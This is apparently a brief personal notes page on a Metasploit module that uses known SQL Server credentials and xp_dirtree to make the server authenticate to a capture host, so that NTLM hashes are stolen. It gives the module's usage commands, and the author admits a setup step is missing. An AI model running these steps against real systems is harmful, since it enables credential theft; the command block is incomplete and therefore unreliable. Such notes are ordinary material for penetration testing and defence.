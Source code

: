 <!-- TITLE: Mssqlntlmstealer -->
<!-- SUBTITLE: A quick summary of Mssqlntlmstealer -->

Looks like it uses SQL server creds to induce SQL to connect to rpc (responder / capture)

Requires: SQL creds, and xp_dirtree to be enabled.
# How to call
```
use admin/mssql/mssql_ntlm_stealer
set PASSWORD <previouslyknown>
set USERNAME <previouslyknown>
set RHOSTS <target>
<pretty sure something is missing here, how does sql server know to target the reponder? Look in metasploit someday>
run
```

